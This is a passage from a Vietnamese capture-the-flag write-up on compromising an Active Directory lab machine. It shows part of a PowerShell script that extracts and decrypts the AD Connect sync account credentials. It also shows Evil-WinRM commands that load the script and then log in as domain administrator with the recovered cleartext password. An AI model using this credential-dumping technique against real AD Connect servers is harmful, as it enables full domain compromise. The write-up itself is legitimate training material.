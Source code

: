 ```
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)

}
```

Cờ `-s` trong `Evil-WinRM` cho phép chỉ định một folder chứa các script PowerShell. Có thể tải một scriopt vào memory trong session `Evil-WinRM` bằng cách nhập tên script và nhấn return.

```
evil-winrm -i 10.10.10.172 -u mhope -p "4n0therD4y@n0th3r$" -s .

adconnect.ps1

Get-ADConnectPassword
```

![alt text](image-13.png)

Việc này đã thành công và đã có được thông tin xác thực cho AD Connect Sync Account. Trong trường hợp này, vì đây là cài đặt tùy chỉnh nên có vẻ như administrator domain chính đã được sử dụng cho việc này. Cần lưu ý rằng cài đặt mặc định sử dụng tài khoản dịch vụ `NT SERVICE\ADSync`.

Sử dụng Evil WinRM để kết nối với tư cách là administrator.

```
evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'
```

![alt text](image-14.png)

Root flag nằm ở `C:\Users\Administrator\Desktop`.